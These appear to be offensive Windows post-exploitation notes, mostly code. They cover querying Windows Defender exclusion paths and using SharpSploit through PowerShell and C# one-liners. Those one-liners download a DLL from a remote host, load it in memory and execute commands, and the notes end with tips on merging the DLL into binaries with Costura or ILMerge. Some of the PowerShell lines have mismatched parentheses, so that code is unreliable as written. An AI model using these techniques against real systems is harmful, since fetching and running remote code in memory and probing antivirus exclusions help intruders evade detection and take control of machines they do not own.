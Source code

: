 ## Checking Windows Defender Exclusion paths:
- We can check them using
```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"
```

## SharpSploit:
- Has a lot of tools we can use through DLL
- To import the DLL in a binary we can use the following methods
- Powershell Method using DLL on target:
```cs
[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("SharpSploit.dll").GetType("SharpSploit.Execution.Shell").GetMethod("ShellExecute").Invoke(0, @("whoami", "", "", ""))
```
- Powershell Method using remote DLL:
```cs
[System.Reflection.Assembly]::Load(new-object net.webclient).DownloadData("https://example.com/SharpSploit.dll").GetType("SharpSploit.Execution.Shell").GetMethod("ShellExecute").Invoke(0, @("whoami", "", "", ""))
```
- C# Method using remote DLL:
```cs
public class Program {
    public static void Main() {
        System.Reflection.Assembly.Load(new System.Net.WebClient().DownloadData("https://example.com/SharpSploit.dll")).GetType("SharpSploit.Execution.Shell").GetMethod("ShellExecute").Invoke(0, @("whoami", "", "", ""));
    }
}
```
- We can use this as reference code but we will need to have the `SharpSploit.dll` on the target as well, unless we use `ILMerge` or `Costura` to merge the binary and the DLL
```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using SharpSploit;


namespace SharpSploitWhoAmI
{
    class Program
    {
        static void Main(string[] args)
        {
            SharpSploit.Credentials.Tokens tokens = new SharpSploit.Credentials.Tokens();
            string whoami = tokens.WhoAmI();
            Console.WriteLine(whoami);
            
        }
    }
}
```
- In `Costura` method, Write the code first then on the Reference section in Visual Studio add reference of the `SharpSploit.dll` and then compile
- We can also use `SharpGen` to generate a binary
